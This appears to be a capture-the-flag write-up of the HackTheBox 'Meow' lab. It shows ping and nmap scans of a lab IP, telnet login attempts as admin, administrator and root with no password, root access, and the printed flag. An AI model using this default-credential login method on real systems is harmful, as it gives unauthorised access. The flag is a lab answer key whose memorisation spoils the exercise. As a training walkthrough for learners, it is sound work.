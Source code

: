 ```yaml
---
title: "HackTheBox - Meow"
date: 2023-12-24 05:44:00 +0700
categories: [HackTheBox, Starting Point]
tags: [very easy, misc, telnet]
image:
    path: /assets/img/hackthebox/starting_points/Meow.png
    alt: Meow - HackTheBox
---
```


[**Meow**](https://app.hackthebox.com/starting-point) is one of the Starting Points from [**HackTheBox**](https://app.hackthebox.com/), where in CTF Meow we will learn about **Telnet**.

## Introduction

- Connect **Meow** using **Pwnbox** or **OpenVPN**.
- Spawn machine.

## Enumeration

To check the target connection and port, we can use **Ping** and **Nmap**.

### Ping

After connect with Meow, then `ping` Target IP.

```bash
❯ ping 10.129.49.190

PING 10.129.49.190 (10.129.49.190) 56(84) bytes of data.
64 bytes from 10.129.49.190: icmp_seq=1 ttl=63 time=778 ms
64 bytes from 10.129.49.190: icmp_seq=2 ttl=63 time=353 ms
64 bytes from 10.129.49.190: icmp_seq=3 ttl=63 time=255 ms
64 bytes from 10.129.49.190: icmp_seq=4 ttl=63 time=566 ms
64 bytes from 10.129.49.190: icmp_seq=5 ttl=63 time=225 ms

--- 10.129.49.190 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4002ms
rtt min/avg/max/mdev = 224.682/435.502/778.336/208.966 ms
```

### Nmap

Scan all open port of target with `nmap`, `-sCV` is a combination of `-sC` and `-sV`, where `-sC` displays the script for the port and `-sV` displays the version info for the port. 

```bash
❯ nmap -sCV 10.129.49.190

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-24 07:18 WIB
Nmap scan report for JSN.JaringanKU (10.129.49.190)
Host is up (1.2s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 170.93 seconds
```

You can see that the open port at `23/tcp` is for the **Telnet** service.

```bash
❯ telnet 10.129.49.190

Trying 10.129.49.190...
Connected to 10.129.49.190.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: 
```

## Foothold

We can try login without password using usernames bellow :
- admin
- administrator
- root

```bash
Meow login: admin
Password: 

Login incorrect
Meow login: administrator
Password: 

Login incorrect
meow login: 
```

### Telnet

Last try we can use root username.

```bash
Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 24 Dec 2023 12:32:04 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             136
  Users logged in:       0
  IPv4 address for eth0: 10.129.49.190
  IPv6 address for eth0: dead:beef::250:56ff:fe96:4e0a

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0

root@Meow:~#
```

Once we get into Telnet from the target, let's look for the flag.

```bash
root@Meow:~# ls
flag.txt  snap

root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```